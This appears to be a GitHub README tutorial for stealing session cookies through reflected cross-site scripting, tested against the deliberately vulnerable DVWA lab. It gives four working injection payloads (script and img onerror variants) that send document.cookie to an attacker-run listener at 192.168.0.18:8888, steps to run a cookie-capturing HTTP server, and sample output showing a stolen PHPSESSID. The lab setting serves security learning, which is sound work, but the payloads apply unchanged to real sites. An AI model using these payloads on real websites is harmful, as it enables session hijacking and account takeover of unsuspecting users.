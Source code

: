 # Steal Cookies with Reflected XSS

This is a basic Reflected XSS attack to steal cookies from a user of a vulnerable website. The attack string comes from Ch. 12, p. 436 of [The Web Application Hacker's Handbook, 2nd Ed.][3]

This was tested against the [Damn Vulnerable Web Application][5] (DVWA) v1.8. DVWA can be installed alone or as part of the excellent [OWASP Broken Web Applications Project][6] (BWA) v1.2.



### Assumptions:
1. You've already identified website (and field or parameter) that is vulnerable to Reflected XSS.
1. You're able to run shell commands on a Linux system that is reachable by the vulnerable web app. You'll probably need to run the Python script (mentioned below) as root or prepended with `sudo`.

## Run the Cookie Stealer Python Script

You'll need a place to capture the stolen cookies. [lnxg33k][1] has written an excellent Python script called [XSS-cookie-stealer.py][2]. Run it with Python 2.6 or higher. It is just an HTTP server which logs each inbound HTTP connection and all the cookies contained in that connection.

```shell
python XSS-cookie-stealer.py
```

The resulting output, at minimum, will be this:

```shell
Started http server

```

You're not there yet. Now you have to launch the actual attack. Below are a couple of choices.

## Inject the XSS Attack Code
Below are four versions of the same attack.

### 1. `alert()` Before Stealing the Cookie
Run this version of the attack code if you want to see the cookie in a JS `alert()` as confirmation that the injection is successfully exploiting the vulnerability on the target site. Note that the cookie will not upload to your Python listener until the victim closes the JS `alert()` dialog.

```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://192.168.0.18:8888/?"+document.cookie;
</script>
```

### 2. Silent One-Liner
This one is the same but no `alert()` and all on one line.

```js
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>
```

### 3. `<img>` Tag Instead of `<script>` Tags
Don't use this one! It works but calls `onerror()` in a loop, filling up your stolen cookie log:
```html
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>
```

### 4. `<img>` Tag and Without the Infinite Loop
This one works and will only steal the cookie once. I adapted it from a posting on the old [kirupa.com][4] forum.
```html
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">
```

## Harvest the Stolen Cookies
If you successfully get inject your cookie-stealing XSS script into a vulnerable website, and the script is subsequently executed in a victim's browser, you'll see a cookie appear in the STDOUT of the shell running the Python script:

```shell
2017-02-09 10:05 PM - 192.168.0.254	Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:51.0) Gecko/20100101 Firefox/51.0
------------------------------------------------------------------------------------------------------------------
Cookie Name			Value
------------------------------------------------------------------------------------------------------------------
acopendivids			['swingset,jotto,phpbb2,redmine']
security			['low']
acgroupswithpersist			['nada']
PHPSESSID			['93l9ahf1120bkp79t5ehbkc0m4']
```


[1]: https://github.com/lnxg33k
[2]: https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py
[3]: http://www.wiley.com/WileyCDA/WileyTitle/productCd-1118026470.html
[4]: https://www.kirupa.com/forum/showthread.php?377664-onerror-within-the-img-tag
[5]: http://www.dvwa.co.uk/
[6]: http://www.owaspbwa.org/